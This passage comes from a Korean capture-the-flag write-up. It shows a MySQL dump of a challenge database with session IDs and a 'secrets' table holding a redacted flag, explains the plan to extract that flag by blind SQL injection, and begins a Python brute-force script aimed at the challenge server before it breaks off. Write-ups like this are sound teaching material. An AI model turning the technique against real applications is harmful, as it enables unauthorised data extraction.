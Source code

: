     --
    -- Table structure for table `sessions`
    --
    
    DROP TABLE IF EXISTS `sessions`;
    /*!40101 SET @saved_cs_client     = @@character_set_client */;
    /*!50503 SET character_set_client = utf8mb4 */;
    CREATE TABLE `sessions` (
      `session_id` varchar(100) DEFAULT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;
    /*!40101 SET character_set_client = @saved_cs_client */;
    
    --
    -- Dumping data for table `sessions`
    --
    
    LOCK TABLES `sessions` WRITE;
    /*!40000 ALTER TABLE `sessions` DISABLE KEYS */;
    INSERT INTO `sessions` VALUES ('163d9405-64c3-4cef-9c00-89e3462beff3'),    ('73e13697-8594-4791-9266-8fcc0fc583d6'),('d71b2ab7-74e5-49fb-93ce-6e65e3f47983'),     ('12cac265-615d-463a-9770-96d76085d211'),('c850b330-86e2-4e6c-8662-9aba2c6fc310'),    ('e6dbdc4f-ba52-47ae-baa3-988cb2f00f2d'),('dedcb5ee-74f1-4671-bca1-ba0701e72e73');
    /*!40000 ALTER TABLE `sessions` ENABLE KEYS */;
    UNLOCK TABLES;
    /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
    
    /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
    /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
    /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
    /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
    /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
    /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
    /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
    
    -- Dump completed on 2021-03-19 20:03:02
    ```

    ```sql
    INSERT INTO `secrets` VALUES ('flag','***REDACTED***');
    ```

    이렇게 secrets 테이블의 type 컬럼에 flag 이름으로 ``***REDACTED***`` 라고 되어있는것을 보고 FLAG가 들어있는것을 유추할 수 있습니다.

    아까 SQL구문으로 인해 발생하는 응답 에러를 이용하여 플래그가 들어있는것으로 예상되는 ``secrets`` 테이블을 대상으로 Blind SQL Injection를 시도하면

    ```py
    import requests
    import string
    import time

    url = "http://chall.codefest.tech:5000/"
    GetFlagCookies = {}
    FLAG = ''

    List = list(string.ascii_letters + string.ascii_lowercase + string.digits + '{}')
    List.append('\_')
